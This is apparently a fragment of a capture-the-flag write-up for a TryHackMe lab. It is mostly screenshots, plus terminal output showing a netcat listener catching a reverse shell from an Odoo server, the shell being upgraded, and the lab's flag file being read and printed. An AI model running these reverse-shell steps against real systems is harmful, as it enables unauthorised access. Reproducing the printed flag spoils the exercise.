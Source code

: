 
<img width="1255" height="623" alt="image" src="https://github.com/user-attachments/assets/1bbe92c7-f719-4ba5-aade-bfc0e35a0b01" />

<br>
<br>

<img width="1246" height="204" alt="image" src="https://github.com/user-attachments/assets/95632dfd-e8e4-40de-9c37-400288fd0f53" />

<br>
<br>

<img width="1252" height="399" alt="image" src="https://github.com/user-attachments/assets/036604b2-95c2-400e-90df-a69ed3842018" />




<img width="664" height="393" alt="image" src="https://github.com/user-attachments/assets/38722396-06bc-4c28-ace4-a96da5147d2a" />



root@ip-10-201-47-153:~/Obscure# nano exploit.py
root@ip-10-201-47-153:~/Obscure# nano exploit.py
root@ip-10-201-47-153:~/Obscure# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.201.4.52 42798
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
odoo@b8a9bbf1f380:/$ SHELL=/bin/bash script -q /dev/null
SHELL=/bin/bash script -q /dev/null
odoo@b8a9bbf1f380:/$ 




<br>
<br>

```bash
$ SHELL=/bin/bash script -q /dev/null
SHELL=/bin/bash script -q /dev/null

```


<img width="1281" height="332" alt="image" src="https://github.com/user-attachments/assets/c7601fde-89a8-4bc4-af10-f198805b32d7" />




odoo@b8a9bbf1f380:/$ pwd        
pwd
/
odoo@b8a9bbf1f380:/$ cd /var/lib/odoo
cd /var/lib/odoo
odoo@b8a9bbf1f380:~$ 


odoo@b8a9bbf1f380:~$ ls -lah
ls -lah
total 28K
drwxr-xr-x 5 odoo odoo 4.0K Feb 22  2023 .
drwxr-xr-x 1 root root 4.0K Oct 17  2019 ..
lrwxrwxrwx 1 root root    9 Feb 22  2023 .bash_history -> /dev/null
drwx------ 3 odoo odoo 4.0K Jul 23  2022 addons
-rw-r--r-- 1 odoo odoo 1.4K Sep 27 21:08 field_anonymization_main_1.pickle
drwxr-xr-x 3 odoo odoo 4.0K Jul 23  2022 filestore
-rw-r--r-- 1 root root   38 Feb 22  2023 flag.txt
drwx------ 2 odoo odoo 4.0K Sep 27 21:09 sessions
odoo@b8a9bbf1f380:~$ cat flag.txt
cat flag.txt
THM{1243b64a3a01a8732ccb96217f593520}
